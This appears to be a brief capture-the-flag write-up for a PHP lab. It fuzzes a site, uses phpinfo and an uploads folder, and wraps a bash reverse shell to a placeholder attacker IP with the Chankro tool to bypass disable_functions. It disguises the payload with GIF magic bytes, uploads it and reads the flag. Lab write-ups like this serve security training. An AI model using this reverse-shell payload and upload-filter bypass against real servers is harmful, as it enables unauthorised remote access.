 open website.

fuff the site.

got phpinfo, uploads folder.

phpinfo get absolute path.(root path)

try with test file get php execution.

build rev payload

`bash -c 'bash -i >& /dev/tcp/attacker_ip/port_num 0>&1'`

use chankro script to get php file.

`python chankro.py --arch 64 --input cmd.sh --output tron.php --path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db`

create payload. edit it add gif magic bytes. `GIF89a`

upload file.

got flag.

```bash
www-data@ubuntu:/home/s4vi$ cat flag.txt
cat flag.txt
thm{bypass_d1sable_functions_1n_php}


```